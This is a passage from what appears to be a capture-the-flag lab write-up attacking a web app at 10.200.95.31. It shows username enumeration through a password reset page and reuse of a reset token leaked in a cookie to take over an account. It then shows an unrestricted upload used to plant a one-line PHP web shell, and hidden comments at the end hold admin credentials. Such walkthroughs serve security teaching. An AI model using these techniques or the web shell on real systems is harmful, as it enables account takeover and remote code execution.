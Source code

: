 So there is a reset and even an upload file, but without authentication we are redirected to the index page. So it seems that we have to find a valid user at first. I tried to brute force it with hydra using commons usenames wordlist but without any luck. Then I tried with the other credentials found before, dumping users table:

    http://10.200.95.31/login.php?user=gurag&password=AAAA

But I got invalid username and password, then I visited the password recovery URL:

    http://10.200.95.31/password_reset.php?user=gurag&user_token=

I got the following response:

    An email has been sent to the email associated with your username

So the user exists. But I don't have access to the token of course. I decided to inspect the flow using Burp. Inspecting the reset request I found that the user token is also returned as cookie:

    Request -->

    GET /password_reset.php?user=gurag&user_token= HTTP/1.1
    ...
    
    <-- Response
    
    HTTP/1.1 200 OK
    ...
    Set-Cookie: user_token=934e02cb6c5c6f5d345b55bedb26940c42a7f17ffa119d400ba154ea3ec0b69d860002b8053f27513b6b5440a0a7d5d52dfb

Actually this thing it's not so strange, sometime during the development of an application such type of things could be implemented in order to test authentication and authorization workflow. Anyway, let's try to append the cookie value to the query string parameter:

    http://10.200.95.31/password_reset.php?user=gurag&user_token=934e02cb6c5c6f5d345b55bedb26940c42a7f17ffa119d400ba154ea3ec0b69d860002b8053f27513b6b5440a0a7d5d52dfb

And we land to the reset page. Just insert the username as gurag, a new password and we are good to go!

    http://10.200.95.31/password_update.php?user=gurag&password=Pwd12345

You get a positive response:

    Password successfuly updated!
    HOLO{.......................}

Then we can proceed to login using the newky set password. Then we are presented with a button to uoload an image, clicking we are redirected to:

    http://10.200.95.31/img_upload.php?

Let's try to check if there are filter on the file type we can upload (of course only images should be allowed). Let's try to upload a basic webshell:

    <?php if(isset($_GET['c'])) {system($_GET['c']);} ?>


The server does not check the file type at all:


    The file ws.php has been uploaded.


[//]: # (admin:DBManagerLogin!)
[//]: # (Nothingtoworry!)